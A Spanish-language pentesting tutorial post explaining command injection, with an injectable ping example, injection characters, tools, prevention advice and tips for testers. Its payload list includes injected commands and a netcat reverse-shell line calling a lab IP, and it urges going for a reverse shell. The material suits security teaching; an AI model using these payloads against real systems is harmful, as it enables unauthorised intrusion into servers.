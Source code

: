 
---
title: "Command Injection: Cuando un parámetro te da acceso a todo el sistema"
author: "l1ttl3bugc4t"
date: "2025-05-12"
tags: [Command Injection, Pentesting, Seguridad Web, Red Team, Shell]
categories: [Cuaderno, Red Team & Chill, CyberChallenges]
---

**Command Injection** es como meterle comandos al sistema desde un input web y lograr que los ejecute como si fueras el admin 😼💻  
Una vulnerabilidad clásica, poderosa… y a veces, fatal para el servidor.

---

## 🧠 ¿Qué es Command Injection?

Es una vulnerabilidad que ocurre cuando una aplicación **concatena entradas del usuario en comandos del sistema operativo** sin validación adecuada.  
El atacante puede inyectar comandos arbitrarios que el servidor ejecutará.

---

## 💣 Ejemplo básico

Supón que tienes un formulario que hace ping a una IP:

```
http://victima.com/ping?ip=127.0.0.1
```

Y el backend ejecuta:

```bash
ping 127.0.0.1
```

Pero si el input no está validado…

```
http://victima.com/ping?ip=127.0.0.1; whoami
```

El servidor ejecutará:

```bash
ping 127.0.0.1; whoami
```

¡Y listo! El atacante ve el usuario del sistema.

---

## 🧪 Payloads comunes

```bash
127.0.0.1; whoami
8.8.8.8 && uname -a
localhost | id
; nc -e /bin/sh 10.10.14.3 4444
```

---

## 🧵 Caracteres de inyección

- `;` → separador de comandos
- `&&` → ejecuta si el anterior tuvo éxito
- `||` → ejecuta si el anterior falló
- `|` → redirige la salida al siguiente comando
- `` `comando` `` → ejecuta el contenido
- `$()` → evalúa el contenido dentro

---

## 🛠️ Herramientas útiles

- `Burp Suite` para interceptar y modificar parámetros
- `Commix` → automatiza inyecciones de comandos
- `curl` o `wget` para comprobar respuestas
- `netcat` y `socat` para obtener shells

---

## 🛡️ Cómo prevenirlo

- Nunca concatenes datos del usuario en comandos
- Usa funciones seguras como `subprocess.run()` en Python con `shell=False`
- Valida la entrada (IP, nombres, rutas)
- Usa listas blancas
- Escapa y sanitiza correctamente

---

## 📡 En pentesting

- Identifica funciones como ping, traceroute, nslookup
- Revisa si hay eco en la respuesta (reflejo del comando)
- Usa `time delay` para detectar cuando no hay salida directa
- Si logras ejecutar algo… ¡ve por una reverse shell!

---

## ✨ Conclusión

**Command Injection** no es solo una vulnerabilidad… es una puerta abierta al sistema si no se maneja bien.  
Una comilla mal colocada puede ser el inicio del fin 😈💥

> _"Dame una IP y te abriré una shell."_ — **l1ttl3bugc4t**

---
